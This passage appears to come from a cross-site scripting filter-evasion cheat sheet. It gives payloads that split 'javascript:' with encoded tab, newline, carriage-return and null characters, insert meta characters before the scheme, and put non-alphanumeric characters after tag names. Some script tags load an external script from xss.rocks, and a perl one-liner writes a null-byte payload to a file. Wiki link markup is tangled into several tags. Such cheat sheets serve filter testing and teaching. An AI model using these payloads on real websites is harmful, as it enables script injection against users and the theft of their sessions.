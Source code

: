 #### Embedded Newline to Break Up [[_content/dictionary#X|XSS]]¶
While some defenders claim that any of the chars 09-13 (decimal) will work for this attack, this is incorrect. Only 09 (horizontal tab), 10 (newline) and 13 (carriage return) work. Examine the [[[_content/dictionary#A|ASCII]] table](https://man7.org/linux/man-pages/man7/ascii.7.html) for reference. The next four XSS attack examples illustrate this vector:
<a href="jav&#x0A;ascript:alert('XSS');">Click Me</a>

##### Example 1: Break Up [[_content/dictionary#X|XSS]] Attack with Embedded Carriage Return¶
(Note: with the above I am making these strings longer than they have to be because the zeros could be omitted. Often I've seen filters that assume the hex and dec encoding has to be two or three characters. The real rule is 1-7 characters.):
<a href="jav&#x0D;ascript:alert('XSS');">Click Me</a>

##### Example 2: Break Up [[_content/dictionary#J|JavaScript]] Directive with Null¶
Null chars also work as [[_content/dictionary#X|XSS]] vectors but not like above, you need to inject them directly using something like Burp Proxy or use %00 in the [[_content/dictionary#U|URL]] string or if you want to write your own injection tool you can either use vim (^V^@ will produce a null) or the following program to generate it into a text file. The null char %00 is much more useful and helped me bypass certain real world filters with a variation on this example:
perl -e 'print "<[[_content/dictionary#I|IMG]] [[_content/dictionary#S|SRC]]=java\0script:alert(\"XSS\")>";' > out

##### Example 3: Spaces and Meta Chars Before the [[_content/dictionary#J|JavaScript]] in Images for [[_content/dictionary#X|XSS]]¶
This is useful if a filter's pattern match doesn't take into account spaces in the word javascript:, which is correct since that won't render, but makes the false assumption that you can't have a space between the quote and the javascript: keyword. The actual reality is you can have any char from 1-32 in decimal:
<a href=" &#14;  javascript:alert('XSS');">Click Me</a>

##### Example 4: Non-alpha-non-digit [[_content/dictionary#X|XSS]]¶
The Firefox [[_content/dictionary#H|HTML]] parser assumes a non-alpha-non-digit is not valid after an HTML keyword and therefore considers it to be a whitespace or non-valid token after an HTML tag. The problem is that some XSS filters assume that the tag they are looking for is broken up by whitespace. For example \<[[_content/dictionary#S|SCRIPT]]\\s != \<[[_content/dictionary#S|SCRIPT]]/[[_content/dictionary#X|XSS]]\\s:
<[[_content/dictionary#S|SCRIPT]]/[[_content/dictionary#X|XSS]] [[_content/dictionary#S|SRC]]="http://xss.rocks/xss.js"></SCRIPT>

Based on the same idea as above, however, expanded on it, using Rsnake's fuzzer. The Gecko rendering engine allows for any character other than letters, numbers or encapsulation chars (like quotes, angle brackets, etc) between the event handler and the equals sign, making it easier to bypass cross site scripting blocks. Note that this also applies to the grave accent char as seen here:
<[[_content/dictionary#B|BODY]] onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("[[_content/dictionary#X|XSS]]")>

Yair Amit noted that there is a slightly different behavior between the Trident (IE) and Gecko (Firefox) rendering engines that allows just a slash between the tag and the parameter with no spaces. This could be useful in a attack if the system does not allow spaces:
<[[_content/dictionary#S|SCRIPT]]/[[_content/dictionary#S|SRC]]="http://xss.rocks/xss.js"></SCRIPT>
